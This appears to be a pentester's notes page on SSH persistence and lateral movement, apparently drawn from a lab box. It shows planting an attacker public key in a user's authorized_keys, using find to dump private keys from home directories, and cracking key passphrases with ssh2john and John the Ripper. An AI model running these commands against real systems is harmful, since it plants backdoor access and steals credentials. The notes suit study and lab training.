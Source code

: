 ```yaml
---
icon: swords
---
```


# Pivoting/Lateral Movement

## <mark style="color:purple;">Persistence</mark>

***

{% hint style="info" %}
## <mark style="color:purple;">Pivoting to SSH</mark>

### <mark style="color:purple;">SSH Key Injection</mark>

{% code title="Generate SSH Keys" %}
```sh
ssh-keygen -t ed25519 -f key
```
{% endcode %}

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`authorized_keys`**</mark> <mark style="color:purple;">file doesn't exist create one with your public key:</mark>

```sh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJsqrD2TiYF/KEidiuQncxpjkUU4CDS2A3lmhz1jeHIi b0llull0s@p4n1c" > /home/dvir/.ssh/authorized_keys
```

* <mark style="color:purple;">Other wise append your public key:</mark>

```sh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJsqrD2TiYF/KEidiuQncxpjkUU4CDS2A3lmhz1jeHIi b0llull0s@p4n1c" >> /home/dvir/.ssh/authorized_keys
```

* <mark style="color:purple;">Now just connect with your private key:</mark>

```sh
ssh -i key dvir@10.10.11.8
```

### <mark style="color:purple;">Using Existing keys</mark>

{% code title="Look for the private key" %}
```bash
find /home/user -name "id_*" -exec cat {} \;
```
{% endcode %}

* <mark style="color:purple;">Once you find it, just copy the key in your</mark> <mark style="color:orange;">**`.ssh`**</mark> <mark style="color:purple;">directory and ssh in.</mark>
* <mark style="color:purple;">Also you can, check If the Corresponding private/public Key is known by using this</mark> [<mark style="color:orange;">**`repo`**</mark>](https://github.com/rapid7/ssh-badkeys)<mark style="color:purple;">.</mark>

### <mark style="color:purple;">Crack the passphrase</mark>&#x20;

***

* <mark style="color:purple;">Once you got the private key, you can use</mark> <mark style="color:orange;">**`ssh2john`**</mark> <mark style="color:purple;">to generate a hash from the key:</mark>

```bash
ssh2john private_key > private_key.hash
```

* <mark style="color:purple;">Then feed this hash into</mark> <mark style="color:orange;">**`John the Ripper`**</mark><mark style="color:purple;">:</mark>

```bash
john private_key.hash --wordlist=/path/to/wordlist
```
{% endhint %}

